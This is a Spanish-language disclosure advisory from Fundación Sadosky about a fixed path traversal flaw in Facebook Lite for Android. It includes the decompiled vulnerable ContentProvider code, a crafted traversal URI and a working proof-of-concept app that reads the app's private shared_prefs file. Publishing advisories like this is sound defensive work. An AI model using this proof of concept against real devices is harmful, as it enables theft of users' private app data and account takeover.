
# Vulnerabilidad en la aplicación Facebook Lite para Android


## 1. Información del reporte

**Título:** Vulnerabilidad en la aplicación Facebook Lite para Android

**Reporte ID:** STIC-2015-2012

**Reporte URL:** [http://www.fundacionsadosky.org.ar/publicaciones-2](http://www.fundacionsadosky.org.ar/publicaciones-2)

**Fecha de publicación:** 2015-12-01

**Fecha de última actualización:** 2016-02-2

**Fabricantes contactados:** Facebook

**Modo de publicación:** Coordinado



## 2. Información de vulnerabilidades

**Clase:**  Improper Limitation of a Pathname to a Restricted Directory [[http://cwe.mitre.org/data/definitions/22.html](http://cwe.mitre.org/data/definitions/22.html)]

**Impacto:** Perdida de datos

**Remotamente explotable:** Si

**Localmente explotable:** Si

**Identificador CVE:** N/A



## 3. Descripción de vulnerabilidad

Facebook Lite es una versión más liviana de la aplicación de la red social Facebook, diseñada para aquellos países donde las redes inalámbricas son lentas o para descargar en dispositivos que no tienen capacidad para soportar la versión original de la aplicación.

La aplicación, que cuenta con entre 50 y 100 millones de descargas (a enero de 2016), tiene una vulnerabilidad de Path Traversal que permite a otras aplicaciones acceder a archivos guardados en el almacenamiento interno de la aplicación. Esto permitiría a una aplicación maliciosa, sin necesidad de solicitar ningún permiso, podría, de este modo, tomar completo control de la cuenta de Facebook instalada en el dispositivo de la víctima.


## 4. Paquetes vulnerables

* Facebook Lite version 1.15.0.137.302 o anteriores

## 5. Información y soluciones del fabricante

Facebook reconoció y solucionó la vulnerabilidad en la versión 1.16.0.155.350 de la aplicación, publicada el 28 de Enero, 2016..


## 6. Créditos

Las vulnerabilidades fueron descubiertas e investigadas por Joaquín Manuel Rinaudo. La publicación de este reporte fue coordinada por Programa Seguridad en TIC. 

## 7. Descripción técnica

La aplicación exporta un provider llamado MediaContentProvider vulnerable a Path Traversal. Al llamar al método openFile de dicho ContentProvider, la aplicación obtiene el último segmento directamente de la URI, que es controlada por el atacante y puede apuntar a una ruta relativa a cualquier archivo de forma codificada.

El siguiente método vulnerable es de la clase _com.facebook.lite.photo.MediaContentProvider_.

```
    public ParcelFileDescriptor openFile(Uri r5_Uri, String r6_String) {
        new StringBuilder("photo/called with uri: ").append(r5_Uri);
        if (this.a.match(r5_Uri) == 1) {
            File r0_File = new File(getContext().getFilesDir(), r5_Uri.getLastPathSegment());
            if (!r0_File.exists()) {
                try {
                    r0_File.createNewFile();
                } catch (IOException e) {
                    Log.e("MediaContentProvider", "photo/create new file failed", e);
                }
            }
            return ParcelFileDescriptor.open(r0_File, 805306368);
        } else {
            new StringBuilder("photo/unsupported uri: ").append(r5_Uri);
            throw new FileNotFoundException(new StringBuilder("Unsupported uri: ").append(r5_Uri.toString()).toString());
        }
    }


```


Por ejemplo, cuando un atacante haciendo un pedido a la URI _content://com.facebook.lite.media/..%2Fshared_prefs%2Frti.mqtt.ids.xml_, el último segmento se traduce a _../shared_prefs/rti.mqtt.ids.xml_. Esto permitiría que dicho archivo, que reside en la memoria interna de la aplicación, sea leido por una aplicación maliciosa.

El POC provisto muestra como cualquier aplicación puede leer un archivo interno de Facebook Lite: 

```
  @Override
  protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.activity_main);

    Uri uriCustom = Uri
        .parse("content://com.facebook.lite.media/..%2Fshared_prefs%2Frti.mqtt.ids.xml");
    InputStream fileStream;
    try {
      fileStream = getContentResolver().openInputStream(uriCustom);

      BufferedReader r = new BufferedReader(new InputStreamReader(
          fileStream));
      StringBuilder total = new StringBuilder();
      String line;
      while ((line = r.readLine()) != null) {
        total.append(line);
      }

      fileStream.close();
      Log.d("DEBUG", "string is " + total.toString());
    TextView text = (TextView)findViewById(R.id.file_content);
    text.setText(total);
    } catch (Exception e) {
      Log.d("DEBUG", Log.getStackTraceString(e));
    }
  }



```


## 8. Cronología del reporte

* **2015-11-20:** 
        Se enviaron detalles técnicos de las vulnerabilidades al fabricante.
        
* **2015-11-25:** 
        El fabricante aceptó el reporte y lo reenvió al equipo de desarrollo apropiado.
        
* **2015-12-3:**  consultó acerca del estado del issue.
        
* **2015-12-3:** 
        Dado que no se recibió ninguna respuesta,  preguntó acerca un tiempo estimado para una actualización que solucionase el problema.
        
* **2015-12-3:** 
        Dado que no se recibió ninguna respuesta,  preguntó acerca un tiempo estimado para una actualización que solucionase el problema.
        
* **2016-01-25:** 
        El fabricante aseguró que habían logrado solucionar la vulnerabilidad y que estaban trabajando para realizar una actualización.
        
* **2016-01-26:** 
        El fabricante notificó que lanzaría una actualización esa semana con el problema solucionado.
        
* **2016-02-2:** 
        El reporte fue publicado. 

## 9. Referencias



## 10. Acerca Fundación Dr. Manuel Sadosky

La Fundación Dr. Manuel Sadosky es una institución público privada cuyo objetivo es favorecer la articulación entre el sistema científico – tecnológico y la estructura productiva en todo lo referido a la temática de las Tecnologías de la Información y la Comunicación (TIC). Creada a través del Decreto Nro. 678/09 del Poder Ejecutivo Nacional, la Fundación es presidida por el ministro de Ciencia, Tecnología e Innovación Productiva. Sus vicepresidentes son los presidentes de las cámaras más importantes del sector TIC: CESSI (Cámara de Empresas de Software y Servicios Informáticos) y CICOMRA (Cámara de Informática y Comunicaciones de la República Argentina). Para más información visitar: [http://www.fundacionsadosky.org.ar](http://www.fundacionsadosky.org.ar)

## 11. Derechos de autor

El contenido de este reporte tiene copyright (c) 2014 Fundación Sadosky y se publica bajo la licencia Creative Commons Attribution Non-Commercial Share-Alike 4.0: [http://creativecommons.org/licenses/by-nc-sa/4.0/](http://creativecommons.org/licenses/by-nc-sa/4.0/)